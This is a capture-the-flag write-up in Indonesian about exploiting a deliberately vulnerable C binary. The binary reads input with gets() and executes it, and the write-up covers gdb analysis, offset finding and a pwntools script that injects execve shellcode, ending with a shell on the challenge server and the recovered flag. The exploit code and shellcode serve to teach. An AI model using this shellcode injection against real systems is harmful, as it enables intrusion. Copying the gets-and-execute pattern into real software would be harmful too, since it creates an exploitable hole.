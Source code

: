 Sebuah server yang meminta kalian untuk menginput lokasi...

```bash
nc 103.157.96.13 9991
```

Download : https://mega.nz/#!IlpgCTqI!i2YWasJXAU55CrbXqubPmUJgOwKMhKAq6mmQwH0enIA

#### Source

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>

int main() {
    gid_t gid = getegid();
    setresgid(gid, gid, gid);

    printf("Coba ketik lokasi anda sekarang : \n");
    char target[256];
    gets(target);
    printf("Wah keren, mimin tinggal di Samarinda dong :D\n");
    ((void(*)())target)();
    return 0;
}
```

```bash
gdb-peda$ pd main
Dump of assembler code for function main:
   0x0000000000401162 <+0>:     push   rbp
   0x0000000000401163 <+1>:     mov    rbp,rsp
   0x0000000000401166 <+4>:     sub    rsp,0x110
   0x000000000040116d <+11>:    mov    rax,QWORD PTR [rip+0x2eec]
   0x0000000000401174 <+18>:    mov    ecx,0x0
   0x0000000000401179 <+23>:    mov    edx,0x2
   0x000000000040117e <+28>:    mov    esi,0x0
   0x0000000000401183 <+33>:    mov    rdi,rax
   0x0000000000401186 <+36>:    call   0x401070 <setvbuf@plt>
   0x000000000040118b <+41>:    mov    rax,QWORD PTR [rip+0x2ede]
   0x0000000000401192 <+48>:    mov    ecx,0x0
   0x0000000000401197 <+53>:    mov    edx,0x2
   0x000000000040119c <+58>:    mov    esi,0x0
   0x00000000004011a1 <+63>:    mov    rdi,rax
   0x00000000004011a4 <+66>:    call   0x401070 <setvbuf@plt>
   0x00000000004011a9 <+71>:    mov    rax,QWORD PTR [rip+0x2ed0] 
   0x00000000004011b0 <+78>:    mov    ecx,0x0
   0x00000000004011b5 <+83>:    mov    edx,0x2
   0x00000000004011ba <+88>:    mov    esi,0x0
   0x00000000004011bf <+93>:    mov    rdi,rax
   0x00000000004011c2 <+96>:    call   0x401070 <setvbuf@plt>
   0x00000000004011c7 <+101>:   call   0x401060 <getegid@plt>
   0x00000000004011cc <+106>:   mov    DWORD PTR [rbp-0x4],eax
   0x00000000004011cf <+109>:   mov    edx,DWORD PTR [rbp-0x4]
   0x00000000004011d2 <+112>:   mov    ecx,DWORD PTR [rbp-0x4]
   0x00000000004011d5 <+115>:   mov    eax,DWORD PTR [rbp-0x4]
   0x00000000004011d8 <+118>:   mov    esi,ecx
   0x00000000004011da <+120>:   mov    edi,eax
   0x00000000004011dc <+122>:   mov    eax,0x0
   0x00000000004011e1 <+127>:   call   0x401040 <setresgid@plt>
   0x00000000004011e6 <+132>:   lea    rdi,[rip+0xe1b]        # 0x402008
   0x00000000004011ed <+139>:   call   0x401030 <puts@plt>
   0x00000000004011f2 <+144>:   lea    rax,[rbp-0x110]
   0x00000000004011f9 <+151>:   mov    rdi,rax
   0x00000000004011fc <+154>:   mov    eax,0x0
   0x0000000000401201 <+159>:   call   0x401050 <gets@plt>
   0x0000000000401206 <+164>:   lea    rdi,[rip+0xe23]        # 0x402030
   0x000000000040120d <+171>:   call   0x401030 <puts@plt>
   0x0000000000401212 <+176>:   lea    rdx,[rbp-0x110]
   0x0000000000401219 <+183>:   mov    eax,0x0
   0x000000000040121e <+188>:   call   rdx
   0x0000000000401220 <+190>:   mov    eax,0x0
   0x0000000000401225 <+195>:   leave  
   0x0000000000401226 <+196>:   ret    
End of assembler dump.
gdb-peda$ 
```

kalo dari source sudah pasti kena buffer overflow, cuman harus ngereplace `((void(*)())target)();` biar dapat `shell` interactive karena flagnya ga ada didalam binary maupun sourcenya, pertama cari dulu jumlah buffer nya, kalo berdasarkan hasil disassamble seharusnya akan terkena buffer overflow kalo input lebih dari `sub    rsp,0x110` atau sama dengan `272` kalo dalam desimal. untuk meyakinyanya coba di gdb, coba pasang breakpoint `main+176` untuk memeriksa kondisi stack sesudah ngasi input

```bash
gdb-peda$ pattern create 0x110
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A'
gdb-peda$ r
```
dengan memasukan inputan sebesar `0x110` semua stack ter-replace, tinggal mencari jumlah buffernya

```bash
gdb-peda$ pattern search
No register contains pattern buffer
No register points to pattern buffer
Pattern buffer found at:
0x00007fffffffdcb1 : offset    0 - size  272 ($sp + 0x1 [0 dwords])
References to pattern buffer found at:
0x00007fffffffdc28 : 0x00007fffffffdcb1 ($sp + -0x88 [-34 dwords])
gdb-peda$ 
```

berdasarkan
```bash
   0x401201 <main+159>: call   0x401050 <gets@plt>
   0x401206 <main+164>: lea    rdi,[rip+0xe23]        # 0x402030
   0x40120d <main+171>: call   0x401030 <puts@plt>
=> 0x401212 <main+176>: lea    rdx,[rbp-0x110]
   0x401219 <main+183>: mov    eax,0x0
   0x40121e <main+188>: call   rdx
   0x401220 <main+190>: mov    eax,0x0
   0x401225 <main+195>: leave
```
pada ` 0x40121e <main+188>: call   rdx` nilai `rdx` nantinya akan dipanggil sebagai sebuah fungsi yang bersumber dari inputan, jadi harus nyari shellcode yang nantinya dipanggil melalui `rdx` , untuk mengujinya bisa pake perintah `NOP` atau `NOPSLED` dalam hexa `0x90`, perintah `NOP` tidak mengeksekusi apa2 hanya untuk memastikan kalo nilai `rdx` nantinya memanggil `NOP` atau `0x90`

```bash
gdb-peda$ b *main+176
Breakpoint 1 at 0x401212
gdb-peda$ r <<< `python2 -c "print '\x90' * 8 + 'A' * (0x110 - 8) + '\xb0\xdc\xff\xff\xff\x7f'"`
```

maksudnya ngasi inptan `8 NOP + (110-8) A` di alamat `0x7fffffffdcb0` alamat `0x7fffffffdcb0`  merupakan 8 byte blok pertama dari stack, jadinya nantinya `rdx` akan memanggil alamat `0x7fffffffdcb0` yang isinya `NOP`

```bash
   0x401201 <main+159>: call   0x401050 <gets@plt>
   0x401206 <main+164>: lea    rdi,[rip+0xe23]        # 0x402030
   0x40120d <main+171>: call   0x401030 <puts@plt>
=> 0x401212 <main+176>: lea    rdx,[rbp-0x110]
   0x401219 <main+183>: mov    eax,0x0
   0x40121e <main+188>: call   rdx
   0x401220 <main+190>: mov    eax,0x0
   0x401225 <main+195>: leave
```

setelah mengisi input, nilai `rdx` akan diambil dari `[rbp-0x110]` kalo dicek nilainya

```bash
gdb-peda$ x/x $rbp-0x110
0x7fffffffdcb0: 0x90
gdb-peda$ x/i $rbp-0x110
   0x7fffffffdcb0:      nop
gdb-peda$ 
```

setelah dilanjutkan beberapa instruksi 

```bash
   0x40120d <main+171>: call   0x401030 <puts@plt>
   0x401212 <main+176>: lea    rdx,[rbp-0x110]
   0x401219 <main+183>: mov    eax,0x0
=> 0x40121e <main+188>: call   rdx
   0x401220 <main+190>: mov    eax,0x0
   0x401225 <main+195>: leave  
   0x401226 <main+196>: ret    
   0x401227:    nop    WORD PTR [rax+rax*1+0x0]
No argument
```
Nilai `=> 0x40121e <main+188>: call   rdx` akan memanggil `0x7fffffffdcb0`, untuk membuktinya bisa pake perintah `x/8i` artinya lihat 8 Intruksi berikutnya

```bash
gdb-peda$ x/8i $rdx
   0x7fffffffdcb0:      nop
   0x7fffffffdcb1:      nop
   0x7fffffffdcb2:      nop
   0x7fffffffdcb3:      nop
   0x7fffffffdcb4:      nop
   0x7fffffffdcb5:      nop
   0x7fffffffdcb6:      nop
   0x7fffffffdcb7:      nop
gdb-peda$ 
```

Tinggal nyari Shellcode linux 64 Bit yang ukuranya kecil untuk ngedapatin interaktive shell nya

```
http://shell-storm.org/shellcode/files/shellcode-806.php
```

dan buat Exploitnya

```python
import struct

repl = 0x7fffffffdcb0
repl_byte = struct.pack("<Q", repl)

shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
fuzz = shellcode + 'A' * (0x110 - len(shellcode)) + repl_byte

print fuzz
```

coba di GDB

```bash
gdb-peda$ x/13i $rdx
   0x7fffffffdcb0:      xor    eax,eax
   0x7fffffffdcb2:      movabs rbx,0xff978cd091969dd1
   0x7fffffffdcbc:      neg    rbx
   0x7fffffffdcbf:      push   rbx
   0x7fffffffdcc0:      push   rsp
   0x7fffffffdcc1:      pop    rdi
   0x7fffffffdcc2:      cdq    
   0x7fffffffdcc3:      push   rdx
   0x7fffffffdcc4:      push   rdi
   0x7fffffffdcc5:      push   rsp
   0x7fffffffdcc6:      pop    rsi
   0x7fffffffdcc7:      mov    al,0x3b
   0x7fffffffdcc9:      syscall 
gdb-peda$ c
Continuing.
process 14226 is executing new program: /usr/bin/dash
```

kalo di banding kan dengan http://shell-storm.org/shellcode/files/shellcode-806.php 13 intruksi akan sama persis, dan lagi ketika proses di lanjutkan gdb mendeteksi ada proses baru yang memanggil program `/usr/bin/dash` artinya shellcode berhasil. tetapi proses tidak berhasil jika dijalankan diluar gdb, untuk itu harus try and error untuk nyari alamat yang pas sebagai pengganti alamat  `0x7fffffffdcb0`

```python
from pwn import *
import struct

repl = 0xf7edd900
repl_byte = struct.pack("<Q", repl)

shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
fuzz = shellcode + 'A' * (0x110 - len(shellcode)) + repl_byte
#conn = remote('103.157.96.13',9991)
conn = process('./chal4')
conn.sendline(fuzz)
conn.interactive()
```

hasilnya

```bash
$ python2 solve.py             
[+] Starting local process './chal4': pid 14416
[*] Switching to interactive mode
Coba ketik lokasi anda sekarang : 
Wah keren, mimin tinggal di Samarinda dong :D
$ id
uid=1000(kulikode) gid=1000(kulikode) groups=1000(kulikode),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),118(bluetooth),133(scanner),142(kaboxer)
```

Kalo dijalanin di remote server
```bash
 python2 solve.py
[+] Opening connection to 103.157.96.13 on port 9991: Done
[*] Switching to interactive mode
Coba ketik lokasi anda sekarang : 
Wah keren, mimin tinggal di Samarinda dong :D
$ cat flag
CTFR{f1r5t_t1m3_d3pl0y_5h3ll_c0d3???}
```

Flag

```
CTFR{f1r5t_t1m3_d3pl0y_5h3ll_c0d3???}
```

